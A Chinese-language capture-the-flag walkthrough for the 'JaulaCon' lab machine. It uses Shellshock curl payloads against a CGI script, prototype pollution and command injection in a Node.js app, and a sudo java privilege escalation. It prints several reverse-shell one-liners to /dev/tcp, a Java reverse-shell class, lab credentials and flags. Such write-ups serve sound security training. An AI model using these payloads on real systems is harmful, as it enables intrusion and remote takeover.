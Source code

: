 # JaulaCon

2025.03.08 https://thehackerslabs.com/jaulacon/

## Ip

192.168.5.40

## Scan

```
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3333/tcp open  dec-notes
8080/tcp open  http-proxy
```

80 为静态 web，发现 2 个顾客的人名 Jamesh Dame 和 Jumini Kiri ，其他无可用信息。

3333 对应 Node.js，访问后直接跳转到登陆 http://192.168.5.40:3333/login 目前没有登陆用户名和密码，简单测试也不存在 sql 注入。

8080 显示 apache 页面，扫描出了 http://192.168.5.40:8080/cgi-bin/ :

```
dirb http://192.168.5.40:8080/

gobuster dir -t 100 -k -e -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-directories.txt -u http://192.168.5.40:8080/cgi-bin/ -x sh,py,cgi,perl
```

这里找到 cgi 文件 http://192.168.5.40:8080/cgi-bin/agua.cgi 显示：

```
Test
Vulnerable
This is a test
```

像是有 shellshock，进行探测，证明存在：

```
curl -H 'User-Agent: () { :;}; echo; echo 1' http://192.168.5.40:8080/cgi-bin/agua.cgi
curl -H 'User-Agent: () { : ;}; echo; /bin/bash -c "echo 1"' http://192.168.5.40:8080/cgi-bin/agua.cgi
或者
nmap 192.168.5.40 -p 8080 --script=http-shellshock --script-args uri=/cgi-bin/agua.cgi
```

当 Bash<=4.3，bash 使用的环境变量是通过函数名称来调用的，以“(){”开头通过环境变量来定义的。而在处理这样的“函数环境变量”的时候，并没有以函数结尾“}”为结束，而是一直执行其后的 shell 命令。

然后执行反弹 shell 操作：

```
curl -H 'User-Agent: () { : ;}; echo; /bin/bash -c "/bin/bash -i >& /dev/tcp/192.168.5.3/8888 0>&1"' http://192.168.5.40:8080/cgi-bin/agua.cgi
```

或者使用另外一个漏洞利用库进行利用 https://github.com/nccgroup/shocker :

```
python2  ./shocker/shocker.py --Host 192.168.5.40 --port 8080 --command "/bin/cat /etc/passwd" --cgi /cgi-bin/agua.cgi
```

然后执行反弹命令，在 kali 上得到了反弹的 shell。先看到了这个 cgi 的源码：

```
www-data@ebe553aaa355:/var/www$ cat /usr/lib/cgi-bin/agua.cgi
#!/bin/bash

echo "Content-type: text/plain"
echo
echo
echo "Test"
echo
echo

# Vulnerable line
env x='() { :;}; echo Vulnerable' bash -c "echo This is a test"
```

进入系统后，发现是在 docker 容器中，有 .dockerenv 文件，但是没有任何特权，不能提权到宿主机。

发现隐藏文件 /opt/.credenciales : `Shellychosk:Portidrea345ñ` 可能是 ssh 或者是 3333 那个登陆页面的用户凭据。不是 ssh 的，是 3333 端口的。

登陆后，可以输入 url 下载文件，这里可能存在 SSRF。输入一个 http 请求，提示不是管理员，需要寻找提升到管理员的方法。

3333 对应的 web 服务是 Node.js 搭建的，可能存在 Prototype Pollution，当创建新对象时，会传入原型“对象”的属性和方法，其中包含 toString、constructor 和 hasOwnProperty 等基本功能，一旦对`__proto__`属性进行更改，它就会应用于正在运行的应用程序中的所有 JavaScript 对象，包括在操作后创建的对象。

利用过程如下：

1. 先使用上面的用户凭据登陆，然后获得 cookie 中的 admin_session 值:

```
curl -X POST -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=Shellychosk&password=Portidrea345ñ' http://192.168.5.40:3333/login -v

admin_session=e4ad770982de667ccfcb380c13a87bc30f0e1e91bca7a223ff9461345507672a4b4f255db1925f0bb06f1153496e3ecca34b28e168c42addeb094e7ea21ed2f2
```

2. 进行原型链污染，会返回 Forbidden:

```
curl -X POST -H 'Content-Type: application/json' -d '{"url":1,"__proto__":{"admin":"true","isAdmin":"true","isadmin":"true"}}' http://192.168.5.40:3333/admin/check_url -v
```

3. 再次访问 check_url，这时系统内部的属性已经变成 admin，执行后会显示 File Downloaded：

```
curl -X POST -b 'admin_session=e4ad770982de667ccfcb380c13a87bc30f0e1e91bca7a223ff9461345507672a4b4f255db1925f0bb06f1153496e3ecca34b28e168c42addeb094e7ea21ed2f2' -H 'Content-Type: application/json' -d '{"url":1,"__proto__":{"admin":"true","isAdmin":"true","isadmin":"true"}}' http://192.168.5.40:3333/admin/check_url -v
```

4. 执行命令验证(猜测目标机器上使用的是 Node.js 中的 exec 执行的系统命令，并且使用的是 wget url -O 这种形式进行的下载，url 现在可控，需要把前面和后面必合掉才能执行自己的命令)：

```
curl -X POST -b 'admin_session=e4ad770982de667ccfcb380c13a87bc30f0e1e91bca7a223ff9461345507672a4b4f255db1925f0bb06f1153496e3ecca34b28e168c42addeb094e7ea21ed2f2' -H 'Content-Type: application/x-www-form-urlencoded' --data-urlencode 'url=; ping -c 5 192.168.5.3 #' http://192.168.5.40:3333/admin/check_url -v
```

5. 执行反弹 shell

```
curl -X POST -b 'admin_session=e4ad770982de667ccfcb380c13a87bc30f0e1e91bca7a223ff9461345507672a4b4f255db1925f0bb06f1153496e3ecca34b28e168c42addeb094e7ea21ed2f2' -H 'Content-Type: application/x-www-form-urlencoded' --data-urlencode 'url=; /bin/bash -c "/bin/bash -i >& /dev/tcp/192.168.5.3/8888 0>&1" #' http://192.168.5.40:3333/admin/check_url -v
```

得到了反弹的 shell，在用户 jaula 下拿到了 user flag：

```
jaula@JaulaCon:~$ cat user.txt
3ac6640322d7d06957d3773fab3b27b7
```

sudo -l 显示 (root) NOPASSWD: /usr/bin/java 直接提权到 root：

创建 shell.java 文件：

```
public class shell {
    public static void main(String[] args) {
        ProcessBuilder pb = new ProcessBuilder("bash", "-c", "$@| bash -i >& /dev/tcp/192.168.5.3/8888 0>&1")
            .redirectErrorStream(true);
        try {
            Process p = pb.start();
            p.waitFor();
            p.destroy();
        } catch (Exception e) {}
    }
}
```

javac shell.java & java shell 在 kali 上监听 8888 得到反弹的 shell，读取到最终的 root flag：

```
root@JaulaCon:~# cat root.txt
bdc7c8e1ce71e0ebff2d76d9b58c9b74
```
